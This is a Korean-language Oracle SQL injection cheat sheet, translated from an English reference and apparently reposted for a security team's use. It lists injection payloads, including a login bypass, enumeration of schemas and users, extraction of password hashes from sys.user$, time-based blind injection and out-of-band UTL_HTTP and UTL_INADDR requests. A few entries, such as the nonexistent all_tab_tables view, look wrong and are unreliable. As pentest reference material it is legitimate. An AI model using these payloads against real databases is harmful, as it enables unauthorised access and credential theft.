 # Oracle Injection Cheet Sheet

| 작성자       | 강하늘 사원   |
| --------- | ---------------- |
| **작성 일자** | **2024년 4월 18일** |
| **수정 일자** |                  |
| **비고**    |                  |


<br><br>

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/da75f236-8e45-4cfa-bf15-229c0ff9932d)


아래 링크를 번역함. </br>
https://websec.ca/kb/sql_injection

## ( 1 ) 기본 데이터베이스

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SYSTEM<o:p></o:p></span></span></div>
</td>
  <td style="border-left: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">모든 버전에서 사용 가능<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SYSAUX<o:p></o:p></span></span></div>
</td>
  <td style="border-bottom: solid windowtext 1.0pt; border-left: none; border-right: solid windowtext 1.0pt; border-top: none; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">모든 버전에서 사용 가능<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>


## ( 2 ) 코멘트 아웃 쿼리(Comment Out Query)

여기서 코멘트 아웃(Comment Out)이란 디버그에서 자주 사용되는 방법으로 코멘트를 지시하는 문을 삽입하여 프로그램이나 명령어 집합의 일부를 일시적으로 사용하지 않는 것을 말함.

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">--<o:p></o:p></span></span></div>
</td>
  <td style="border-left: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">SQL </span>주석<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

예 :
SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';


## ( 3 ) 버전 테스팅

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT banner FROM v$version WHERE
  banner LIKE 'Oracle%';<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT banner FROM v$version WHERE
  banner LIKE 'TNS%';<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT version FROM v$instance;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

노트 :
오라클은 모든 SELECT 문에는 테이블이 있어야 함.
DUAL 테이블은 테스트에 사용할 수 있는 더미 테이블임.


## ( 4 ) 데이터베이스 자격 증명

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT username FROM all_users;<o:p></o:p></span></span></div>
</td>
  <td style="border-left: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">모든 버전에서 사용 가능<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT name, password from sys.user$;<o:p></o:p></span></span></div>
</td>
  <td style="border-bottom: solid windowtext 1.0pt; border-left: none; border-right: solid windowtext 1.0pt; border-top: none; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">&lt;= 10g </span>에서 사용<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT name, spare4 from sys.user$;<o:p></o:p></span></span></div>
</td>
  <td style="border-bottom: solid windowtext 1.0pt; border-left: none; border-right: solid windowtext 1.0pt; border-top: none; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">&lt;= 11g </span>에서 사용<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>



## ( 5 ) 데이터베이스 이름

① 현재 데이터베이스

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT name FROM v$database;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT instance_name FROM v$instance<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT global_name FROM global_name<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT SYS.DATABASE_NAME FROM DUAL<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

② 사용자 데이터베이스

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT DISTINCT owner FROM all_tables;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>


## ( 6 ) 서버 호스트 이름

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT host_name FROM v$instance;
  (Privileged)<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT UTL_INADDR.get_host_name FROM
  dual;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT
  UTL_INADDR.get_host_name('10.0.0.1') FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT UTL_INADDR.get_host_address
  FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>


## ( 7 ) 테이블과 컬럼

① 테이블 검색

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT table_name FROM all_tables;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

② 컬럼 검색

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT column_name FROM
  all_tab_columns;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

③ 컬럼 이름에서 테이블 찾기

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT column_name FROM
  all_tab_columns WHERE table_name = 'Users';<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

④ 테이블 이름에서 컬럼 찾기

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT table_name FROM all_tab_tables
  WHERE column_name = 'password';<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

⑤ 한 번에 여러 테이블/컬럼 검색

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT RTRIM(XMLAGG(XMLELEMENT(e,
  table_name || ',')).EXTRACT('//text()').EXTRACT('//text()') ,',') FROM
  all_tables;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 8 ) 인용 기호 피하기

다른 RDBMS 와 달링 오라클은 테이블/컬럼 이름을 인코딩할 수 있음.

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184; width: 615px;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT 0x09120911091 FROM dual;<o:p></o:p></span></span></div>
</td>
  <td style="border-left: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">Hex </span>인코딩<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT CHR(32)||CHR(92)||CHR(93) FROM
  dual;<o:p></o:p></span></span></div>
</td>
  <td style="border-bottom: solid windowtext 1.0pt; border-left: none; border-right: solid windowtext 1.0pt; border-top: none; mso-border-alt: solid windowtext .5pt; mso-border-left-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 230.6pt;" valign="top" width="307"><div class="MsoNoSpacing">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">CHAR() </span>함수<span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 9 ) 문자열 연결

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT 'a'||'d'||'mi'||'n' FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 10 ) 타이밍

① 시간 지연

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT UTL_INADDR.get_host_address('non-existant-domain.com')
  FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

② 막대한 시간 지연(Heavy Time Delays)

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNormal" style="line-height: normal; margin-bottom: .0001pt; margin-bottom: 0cm;">
<span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;"><span lang="EN-US">AND
  (SELECT COUNT(*) FROM all_users t1, all_users t2, all_users t3, all_users t4,
  all_users t5) &gt; 0 AND 300 &gt; ASCII(SUBSTR((SELECT username FROM
  all_users WHERE rownum = 1),1,1));</span><span lang="EN-US"><o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 11 ) 특권

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT privilege FROM session_privs;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT grantee, granted_role FROM
  dba_role_privs; (Privileged)<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>

## ( 12 ) 대역 외 채널링

① DNS Requests

<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody>
<tr>
  <td style="border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT
  UTL_HTTP.REQUEST('http://localhost') FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
<tr>
  <td style="border-top: none; border: solid windowtext 1.0pt; mso-border-alt: solid windowtext .5pt; mso-border-top-alt: solid windowtext .5pt; padding: 0cm 5.4pt 0cm 5.4pt; width: 461.2pt;" valign="top" width="615"><div class="MsoNoSpacing">
<span lang="EN-US"><span style="font-family: &quot;courier new&quot; , &quot;courier&quot; , monospace;">SELECT UTL_INADDR.get_host_address('localhost.com')
  FROM dual;<o:p></o:p></span></span></div>
</td>
 </tr>
</tbody></table>


## ( 13 ) 패스워드 크랙(Password Cracking)

JTR 용 Metasploit 모듈은 아래 링크에서 찾을 수 있음.



http://www.metasploit.com/modules/auxiliary/analyze/jtr_oracle_fast

##### 원작자: 문광일 PM
##### 링크: [KOROMOON][koromoonlink]
[koromoonlink]: https://koromoon.blogspot.com/2018/10/oracle-injection-cheet-sheet.html "Go koromoon"
